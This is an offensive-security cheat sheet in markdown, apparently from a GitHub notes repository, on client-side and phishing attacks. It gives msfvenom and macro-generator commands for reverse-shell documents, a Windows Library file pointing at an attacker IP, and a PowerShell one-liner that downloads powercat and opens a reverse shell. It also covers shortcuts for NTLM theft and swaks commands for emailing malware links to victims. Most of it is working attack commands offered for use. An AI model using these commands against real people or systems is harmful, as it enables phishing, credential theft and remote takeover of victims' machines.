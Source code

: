 # 🎣 Client-Side Attacks

## Information Gathering

```shell
exiftool <file>
canarytokens.com # generate a fake url to collect victim data
```

## Attacks

- [evil_macro.py](https://github.com/rodolfomarianocy/Evil-Macro/)
- [malicious-pdf.py](https://github.com/jonaslejon/malicious-pdf)
- [MMG-LO](https://github.com/0bfxgh0st/MMG-LO)

```shell
# create a malicious HTA with msfvenom
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f hta-psh -o file.hta

# generate a malicious macro for a reverse shell in powershell using base64 for .doc
python evil_macro.py -l <ip> -p <port> -o macro.txt

# generate a malicious PDF file
python3 malicious-pdf.py burp-collaborator-url

# generate a malicious odt file
python mmg-odt.py windows <ip> <port> 
```

### Windows Library

In Windows, create a file **config.Library-ms** and put the attack IP in the url and save it.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.152</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

Now create a shortcut called **install** with the attack machine IP:

```shell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.152:3333/powercat.ps1'); powercat -c 192.168.45.152 -p 4444 -e powershell"
```

Transfer them to to the attack machine, start a webdav server to serve the shortcut, a python http server to serve the powercat script and a listener to receive the reverse shell and send the email.

### Create shortcuts

#### Windows

```ps
$LnkFile = "C:\users\<user>\desktop\Services.lnk"
PS C:\> $WshShell = New-Object -ComObject WScript.Shell
PS C:\> $Shortcut = $WshShell.CreateShortcut($LnkFile)
PS C:\> $Shortcut.TargetPath = "\\192.168.45.191\test\trick.bat"
PS C:\> $Shortcut.Save()
```

#### Linux

> [ntlm_theft.py](https://github.com/Greenwolf/ntlm_theft)

```shell
python ntlm_theft/ntlm_theft.py -g lnk -s 192.168.45.191 -f Services
```

### Sending Emails

```shell
swaks -t <victim(s)_email> -f <from_email> --server <smtp_server> --body 'click me http://<YOUR_IP>/<MALWARE>' --header "Subject: Important" --add-header "Really: 1.0" --add-header "Content-Type: text/html"  [--attach <ATTACHED_FILE>]

sendEmail -t <victim(s)_email> -u <subject> -m <message> -a <attachment> -s <smtp_server> -f <from_email>
```
